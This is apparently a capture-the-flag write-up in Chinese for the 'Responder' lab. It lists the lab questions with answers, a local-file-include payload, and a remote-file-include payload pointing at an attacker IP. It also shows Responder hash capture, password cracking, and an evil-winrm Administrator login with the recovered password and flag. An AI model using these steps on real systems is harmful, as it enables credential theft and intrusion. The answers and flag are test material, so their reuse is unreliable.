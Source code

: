 <center>Responder</center>



[toc]







## Responder

> Responder





### 1. task

1. When visiting the web service using the IP address, what is the domain that we are being redirected to?

```shell
unika.htb
```

2. Which scripting language is being used on the server to generate webpages?

![image-20241127160422068](./assets/image-20241127160422068-1732694665608-1.png)

```shell
php

# 跳转，修改本机hosts文件
sudo vim /etc/hosts

服务器ip 
```

3. What is the name of the URL parameter which is used to load different language versions of the webpage?

```shell
http://unika.htb/index.php?page=french.html
page
```

4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```shell
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts

../../../../../../../../windows/system32/drivers/etc/hosts
```

5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

```shell
//10.10.14.6/somefile
```

6. What does NTLM stand for?

```shell
New Technology LAN Manager
```

7. Which flag do we use in the Responder utility to specify the network interface?

```shell
-I
```

8. There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.

```shell
john the ripper
```

9. What is the password for the administrator user?

```shell
badminton
```

10. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

```shell
5985
```





### 2. NTLM协议

> NTLM (NT LAN Manager) 是一种挑战/响应认证协议：[ntlm](https://cloud.tencent.com/developer/article/2227928)

```shell
用于 Windows 网络认证
支持用户和计算机认证
提供消息完整性和机密性
包含 NTLMv1 和 NTLMv2 两个版本
```

````shell
1. windosw服务端


#### 安装 IIS 和 Windows 认证
```powershell
# 使用 PowerShell 安装 IIS
Install-WindowsFeature -Name Web-Server -IncludeManagementTools

# 安装 Windows 认证
Install-WindowsFeature -Name Web-Windows-Auth
```


#### 安装 IIS 和 Windows 认证
```powershell
# 使用 PowerShell 安装 IIS
Install-WindowsFeature -Name Web-Server -IncludeManagementTools

# 安装 Windows 认证
Install-WindowsFeature -Name Web-Windows-Auth
```

2. linux 服务端


#### 安装必要组件
```bash
# Debian/Ubuntu
sudo apt update
sudo apt install samba winbind libpam-winbind libnss-winbind

# CentOS/RHEL
sudo dnf install samba samba-winbind
```


#### 配置 Samba
```ini:/etc/samba/smb.conf
[global]
    workgroup = WORKGROUP
    security = ads
    realm = DOMAIN.COM
    winbind use default domain = yes
    winbind enum users = yes
    winbind enum groups = yes
    template shell = /bin/bash
```


3. linux 客户端


#### 安装客户端工具
```bash
# Debian/Ubuntu
sudo apt install cntlm

# CentOS/RHEL
sudo dnf install cntlm
```


#### 配置 CNTLM
```ini:/etc/cntlm.conf
Username    domain_user
Domain      DOMAIN
Password    password
Proxy       proxy_server:8080
NoProxy     localhost, 127.0.0.*, 10.*, 192.168.*
Listen      3128
```

````





### 3. falg

> 获取flag
>
> Responder: [github](https://github.com/sponsors/lgandx)
>
> Responder 是一个 LLMNR、NBT-NS 和 MDNS 毒化器。 

```shell
# namp -p- 全端口  --min-rate 秒数，提高效率
nmap -v -p- --min-rate 5000 -sV -sC IP

80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: Unika
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

# 安装Responder
sudo apt install responder

# 监听网卡
sudo responder -I tun0
```

![image-20241129123145894](./assets/image-20241129123145894.png)

```shell
# 直接使用evil-winrm连接
sudo apt install evil-winrm
evil-winrm  -i 10.129.196.56 -u Administrator -p badminton

# make用户Desktop下flag.txt
cat flag.txt
ea81b7afddd03efaa0945333ed147fac

```

> Evil-WinRM 是一个 WinRM（Windows Remote Management）shell。 [github](https://github.com/Hackplayers/evil-winrm)
